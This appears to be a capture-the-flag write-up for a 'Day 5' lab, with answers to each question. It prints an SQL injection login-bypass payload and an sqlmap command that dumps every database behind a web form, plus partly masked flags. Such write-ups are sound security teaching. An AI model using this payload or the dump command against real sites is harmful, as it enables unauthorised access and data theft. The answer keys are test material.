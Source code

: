 # Day 5 - Someone stole Santa's gift list!

- Without using directory brute forcing, what's Santa's secret login panel?

	- You don't have to use a directory fuzzer because you will not find a list with this word.
	- `santapanel`
	
- Visit Santa's secret login panel and bypass the login using SQLi

	no answer needed
	
	- Just enter in the username field `' OR true --`

- How many entries are there in the gift database?

	- `(' OR true --`
	- `22`

- What did Paul ask for?

	- `github ownership`

- What is the flag?

	- You have to enable the Burp option with FoxyProxy.
	- Then, open BurpSuie and perform a single request with the text field.
	- You will see BurpSuite opened with a http request. Send to repeater and save the item as shown in the explaining part previous the ctf.
	- Then start sqlmap with `sqlmap -r request.txt --tamper=space2comment --dump-all --dbms sqlite` taking request.txt as the saved file with BurpSuite.
	- (If sqlmap will ask you something, you have to try the largest attack you can, so try to perform all the tries you can; choosing y or n when it asks you).
	- `thmfox{***_*_****_***_*********_**_***}`

- What is the admin password?

	- `E***SW*z*******B`

# see you ...
